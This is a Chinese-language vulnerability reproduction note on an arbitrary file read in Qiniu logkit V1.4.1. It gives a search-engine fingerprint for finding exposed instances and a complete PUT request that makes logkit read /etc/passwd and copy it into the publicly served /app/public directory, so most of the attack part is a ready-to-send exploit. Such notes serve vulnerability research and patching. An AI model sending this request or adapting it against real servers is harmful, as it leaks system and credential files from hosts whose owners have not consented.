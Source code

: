 # 七牛云 logkit log_path 任意文件读取漏洞

# 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

```
七牛云 logkit V1.4.1
```

## 网络测绘

```
title="七牛Logkit配置文件助手"
```

## 漏洞复现

主页面

![image-20220628115711831](/images/202206281157893.png)

发送请求包配置读取文件

```
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![image-20220628115730198](/images/202206281157267.png)

![image-20220628115736774](/images/202206281157819.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![image-20220628115747872](/images/202206281157946.png)

